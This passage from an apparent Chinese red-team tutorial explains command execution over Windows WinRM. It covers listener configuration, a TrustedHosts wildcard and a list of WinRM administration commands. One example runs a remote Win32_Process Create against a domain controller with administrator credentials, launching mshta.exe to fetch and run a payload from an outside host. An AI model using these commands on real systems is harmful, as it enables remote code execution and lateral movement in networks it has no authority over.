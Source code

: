 通过 winrm.cmd 来进行命令执行
--------------------

在命令行中执行 winrm quickconfig 对 WinRM 进行首次（默认）配置，这里我已经配置好了，此时，WinRM 服务已经开始监听 5985/TCP（从 WinRM2.0 开始，服务的 HTTP 默认监听端口由原来的 80/TCP 变更为 5985/TCP）端口并等待远程主机进行访问， 通 过 winrm enumerate winrm/config/listener 查看 WinRM 服务当前的配置情况：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmNVBiblTDD3iaVkaiac7YLc0SGIkzn6SUYEoKphFXNRmvDicOlt4lhvXTXA/640?wx_fmt=png)

以此配置为例，此时远程主机已经可以通过 WS-Management 协议访问 http://192.168.8.215/wsman 连接当前服务器的 WinRM 服务。不过，WinRM 只允许当前域用户或者处于本机 TrustedHosts 列表中的远程主机进行访问。因此在连接之前，还需要确保发起连接的主机与当前服务器处于同一域或者两台主机的 WinRM 服务 TrustedHosts 中必须存在对方主机的 IP 或主机名，这里类似于一个白名单机制。可以执行 winrm set winrm/config/client @{TrustedHosts="*"} 手动配置当前服务器允许被任意主机连接：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmbRzdlK195L0yphCbIiaf42k1CwylnBBpK0JXKia7SDkp9ga44SK8uS8w/640?wx_fmt=png)

WinRM（.vbs）允许 WMI 对象通过 WinRM 传输进行远程交互，可以利用几个 WMI 类来执行远程命令执行，一个非常著名的 WMI 类 Win32_Process 可以通过利用 Create 方法来生成（远程）进程，调用该命令在本地启动一个 calc.exe 进程。

```
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="calc.exe"}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmDLDicb0FicjcNhuOjpclxEqzRGjAebP2ojdaeMK6oZfDsl66pQS60m7g/640?wx_fmt=png)

当然我们可以通过 -r 来指定远端的机器。  

```
shell winrm invoke Create wmicimv2/win32_process @{CommandLine="cmd.exe /c mshta.exe http://192.168.1.115:80/e.ext"} -r:dc -u:one\administrator -p:q123456.
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmHHd80U83AUrFo4xxatPQwNqibRP09LjTz4c9FcEDLtTp91FUFznnlWQ/640?wx_fmt=jpeg)

下面是 WinRM 的一些简单命令

```
#查看WinRM状态
winrm enumerate winrm/config/listener
 
#开启WinRM远程管理
Enable-PSRemoting –force
 
#设置WinRM自启动
Set-Service WinRM -StartMode Automatic
 
#对WinRM服务进行快速配置，包括开启WinRM和开启防火墙异常检测,默认的5985端口
winrm quickconfig -q
#对WinRM服务进行快速配置，包括开启WinRM和开启防火墙异常检测，HTTPS传输，5986端口
winrm quickconfig -transport:https    
 
#查看WinRM的配置
winrm get winrm/config
 
#查看WinRM的监听器
winrm e winrm/config/listener
 
#为WinRM服务配置认证
winrm set winrm/config/service/auth '@{Basic="true"}'
 
#修改WinRM默认端口
winrm set winrm/config/client/DefaultPorts '@{HTTPS="8888"}'
 
#为WinRM服务配置加密方式为允许非加密：
winrm set winrm/config/service '@{AllowUnencrypted="true"}'
 
#设置只允许指定IP远程连接WinRM
```